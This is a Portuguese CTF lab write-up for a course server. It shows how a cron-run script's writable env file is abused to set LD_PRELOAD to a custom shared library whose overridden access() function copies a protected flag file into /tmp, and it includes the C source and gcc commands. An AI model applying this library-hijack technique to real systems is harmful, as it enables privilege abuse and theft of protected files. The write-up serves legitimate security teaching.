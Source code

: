 
# CTF Semana #4 (Linux Environment)

## Reconhecimento e recolha de informação

Começamos por aceder ao servidor do desafio Capture the Flag, *ctf-fsi.fe.up.pt*, onde procuramos por uma vulnerabilidade que pudéssemos explorar. Observamos os diversos ficheiros e diretórios existentes e as suas respetivas permissões no sistema. Analisámos o código do script presente na pasta flag_reader e reparamos que usa a função **access** da biblioteca ***<unistd.h>***. Reparamos também que apenas tínhamos acesso de escrita ao diretório **/tmp** no sistema, o que nos poderia vir a ser útil no futuro. Por fim, verificamos que o ficheiro em **/home/flag_reader/my_script.sh** era executado todos os minutos, com permissões do criador, após carregar as variáveis de ambiente do ficheiro env, através do cronscript em **/etc/cron.d/my_cron_script**. Este último ponto chamou-nos à atenção e tornou-se o ponto principal da nossa abordagem.

<img src="../screenshots/ctf4/permissions.png" alt="file permissions">


## Exploração da vulnerabilidade
Com base na situação identificada, decidimos explorar a vulnerabilidade associada à substituição da biblioteca. A nossa estratégia foi desenvolver uma biblioteca personalizada que executasse uma operação específica à nossa escolha quando fosse chamada.

## Explicação do ataque

1. Criação da Biblioteca Personalizada
Começamos por criar uma biblioteca personalizada em C. Esta biblioteca continha uma função personalizada que copiaria o ficheiro do diretório /flags/flag.txt para um ficheiro de texto no diretório /tmp. Aqui está o conteúdo do ficheiro:

        #include <stdio.h> 
        #include <stdlib.h>
        #include <unistd.h>
        int access(const char *pathname, int mode){
           system("/bin/cp /flags/flag.txt >> /tmp/myflag.txt");
           return 0;
        } 

2. Compilação da Biblioteca
Compilamos a nossa biblioteca personalizada usando os seguintes comandos:

````bash
$ gcc -fPIC -g -c mylib.c
````
````bash
$ gcc -shared -o libmylib.so.1.0.1 mylib.o -lc
````


3. Substituição da Biblioteca no Diretório Temporário
Como tínhamos permissão para escrever no diretório /tmp, introduzimos a nossa variável de ambiente **LD_PRELOAD=/tmp/libmylib.so.1.0.1** no ficheiro **env** de forma a enganar o sistema a utilizar a nossa biblioteca em vez da biblioteca original.

## Conclusão
Com a nossa biblioteca, o sistema executou a função **access** e o conteúdo do ficheiro **flag.txt** foi copiado para um ficheiro de texto que nós pudéssemos abrir. Por fim utilizamos o comando **cat** para abrir o novo ficheiro de texto. Desta forma, conseguimos capturar a flag ao explorar a vulnerabilidade.

<img src="../screenshots/ctf4/result.png" alt="flag">

Este exercício destaca a necessidade de compreender o funcionamento dos sistemas e das bibliotecas, bem como a importância da segurança na sua gestão. Além disso, também fortaleceu a nossa habilidade de identificar e explorar vulnerabilidades em ambientes controlados.

